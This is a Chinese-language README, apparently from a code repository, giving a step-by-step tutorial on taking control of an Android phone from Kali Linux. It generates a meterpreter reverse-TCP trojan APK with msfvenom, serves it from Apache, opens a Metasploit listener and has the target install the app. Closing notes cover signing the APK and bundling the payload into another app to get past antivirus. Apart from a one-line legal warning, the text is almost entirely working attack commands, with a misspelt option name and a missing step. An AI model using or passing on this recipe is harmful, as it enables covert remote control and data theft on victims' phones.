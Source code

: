 # 使用Kali入侵安卓手机
# 未经容许的入侵是违法行为！！！请不要随意模仿！！！
步骤：
1. SSH连接上kali<br>
![图像_2021-08-19_182808](https://user-images.githubusercontent.com/71908235/130053586-a06330ed-4068-409d-91dd-afdc25cb422b.png)
2. 生成一个木马apk 命令：msfvenom -p android/meterpreter/reverse_tcp LHOST=这里填kali的IP地址 LPOST=8888 R > app.apk<br>
4. 输入service apache2 start开启服务器服务，再输入sudo cp app.apk /var/www/html将生成的apk文件复制到html文件夹下，然后执行rm /var/www/html/index.html删除掉自带的网页<br>
![图像_2021-08-19_184536](https://user-images.githubusercontent.com/71908235/130055912-8b0e36ef-549f-403a-84f9-ee3ebe2c3271.png)<br>
5. 打开msfconsole（直接粘贴至控制台即可），等待到">"字样出现时继续操作<br>
![图像_2021-08-19_184838](https://user-images.githubusercontent.com/71908235/130056307-6e614687-508a-4182-b686-fe3f4b7e076f.png)
6. 输入use exploit/multi/handler<br>
![图像_2021-08-19_185337](https://user-images.githubusercontent.com/71908235/130056841-85082b3f-a0f4-4bcf-86d5-13a16626c9c9.png)
7. 输入set payload android/meterpreter/reverse_tcp<br>
![图像_2021-08-19_190033](https://user-images.githubusercontent.com/71908235/130057714-9e8f20b2-6fea-4bda-881c-6ef160118e05.png)
8. 输入options，发现HOST和PORT没有设置，设置host和post未创建apk时的IP地址和端口：<br>
![图像_2021-08-19_190220](https://user-images.githubusercontent.com/71908235/130057928-3c2aae58-cf13-4a67-aea4-079be575286d.png)
[![fqVcSH.png](https://z3.ax1x.com/2021/08/19/fqVcSH.png)](https://imgtu.com/i/fqVcSH)
9. 输入exploit开启监听出现Started reverse TCP handler on 时就成功开启了<br>
[![fqVzkT.png](https://z3.ax1x.com/2021/08/19/fqVzkT.png)](https://imgtu.com/i/fqVzkT)
10. 在靶机上访问Kali的IP地址，找到app.apk然后就可以在Kali上控制手机了<br>
<br>
注：<br>
1. 可以使用zipalign对apk进行对齐 zipalign -v 4 text.apk text1.apk<br>
2. 可以生成密钥对 例如 keytool -genkey -v -keystore cg.keystore -alias cg -keyalg RSA -keysize 2048 -validity 10000  模板keytool -genkeypair -keystore 密钥库名 -alias 密钥别名 -validity 天数 -keyalg RSA<br>
3. 可以对apk签名 例如 apksigner sign --ks cg.keystore --ks-key-alias cg text1.apk 模板apksigner sign --ks 密钥库名 --ks-key-alias 密钥别名 text1.apk<br>
4. 可以对apk进行签名验证apksigner verify -v --print-certs text1.apk<br>
还有：直接使用msfvenom生成的裸马，过不了免杀，版本也低，安装不了，捆绑是最简单的，然后做好签名优化就行<br>
